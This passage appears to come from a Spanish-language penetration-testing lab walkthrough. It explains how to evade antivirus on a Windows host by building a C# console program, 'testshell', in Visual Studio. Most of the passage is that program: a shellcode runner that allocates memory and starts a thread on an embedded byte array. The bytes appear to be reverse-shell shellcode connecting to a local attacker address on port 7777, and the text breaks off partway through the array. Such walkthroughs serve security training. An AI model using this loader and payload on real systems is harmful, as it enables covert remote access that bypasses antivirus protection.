Ahora si nos pasamos el binario que hemos generado al equipo `WS02` directamente nos va a saltar el antivirus y nos lo va a eliminar automaticamente.

Para poder evadir estas medidas lo que vamos hacer es realizar todo esto en codigo `cesar` para que asi le cueste mas a los antivirus de detectar ese codigo malicioso, vamos a irnos a la maquina `WS01` y vamos abrir `Visual Studio 2022` el cual ya tendremos instalado de cuando tuvimos que compilar el binario de `Rubeus`.

Vamos a darle a `Crear un proyecto` -> vamos a filtrar por la siguiente informacion `C#`, despues `Windows` y por ultimo `Consola` -> seleccionaremos el llamado `Aplicacion de consola (.NET framework)` -> `Siguiente` -> lo nombraremos como `testshell` -> `Crear`.

Cuando lo tengamos creado, el codigo que viene por defecto lo eliminamos entero ya que no nos va hacer falta, vamos a importar algunas librerias que nos va hacer falta junto con el codigo que vamos a utilizar:

```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;

namespace WIn32

{
    class Program
    {

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]

        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddess, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]

        static extern UInt32 WaitForSingleObject(IntPtr hHandler, UInt32 dwMilliseconds);

        static void Main (string[] args)
        {

            byte[] buf = new byte[354] {0xfc,0xe8,0x8f,0x00,0x00,0x00,
0x60,0x31,0xd2,0x89,0xe5,0x64,0x8b,0x52,0x30,0x8b,0x52,0x0c,
0x8b,0x52,0x14,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x8b,0x72,0x28,
0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,
0x01,0xc7,0x49,0x75,0xef,0x52,0x57,0x8b,0x52,0x10,0x8b,0x42,
0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x01,0xd0,
0x8b,0x48,0x18,0x8b,0x58,0x20,0x50,0x01,0xd3,0x85,0xc9,0x74,
0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xc0,0xac,
0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,0x7d,0xf8,
0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,
0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,
0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,
0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,
0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,
0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,
0x00,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,
0x6a,0x0a,0x68,0xc0,0xa8,0x05,0xcd,0x68,0x02,0x00,0x1e,0x61,
0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,
0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,
0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,
```
